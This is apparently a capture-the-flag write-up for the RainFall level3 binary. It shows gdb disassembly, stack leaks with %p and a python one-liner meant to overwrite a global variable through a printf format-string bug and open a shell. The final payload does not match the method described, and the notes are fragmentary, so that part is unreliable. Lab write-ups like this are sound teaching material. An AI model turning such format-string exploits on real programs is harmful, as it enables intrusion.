 Using a disassembler we see that `fgets` is used so we can't exploit it to do a buffer overflow, but `printf` is used with only our buffer as argument.
When printf only receive a format string it will use address on the stack, so we could print value from the stack (%p, %x etc...) but also write on it (%n).
Format string allow us to choose which argument to use with our option so we could also use a choosen address on the stack after calculating an offset. 
We also see that a global variable `m` is compared with 64 and in case of equality open a shell.
So using printf vulnerability we will try to overwrite m value to enter te condition that open a shell.

Using gdb we can see m address stored in eax and compared with 64.

```Shell
(gdb) disas v
[...]
 0x080484da <+54>:    mov    0x804988c,%eax
 0x080484df <+59>:    cmp    $0x40,%eax
[...]

 ```

using this format string `AAAA %p %p %p %p` we will print the content of the four stack address that printf will use as argument and observe that the fourth is our buffer, because it's content is fill of 0x41 which is 'A' value in ASCII, the first four character of our buffer.

```Shell
level3@RainFall:~$ ./level3
AAAA %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141

```

1. offset

2. buffer = addresse + valeur + %offset$n

3. %n

4. format string

m addr 0x804988c

```Shell
(gdb) disas v
[...]
 0x080484da <+54>:    mov    0x804988c,%eax
[...]

 ```

python -c 'print("A" * 64 + "%\x8c\x98\x04\x08$n")' > /tmp/input3

cat /tmp/input3 - | ./level3
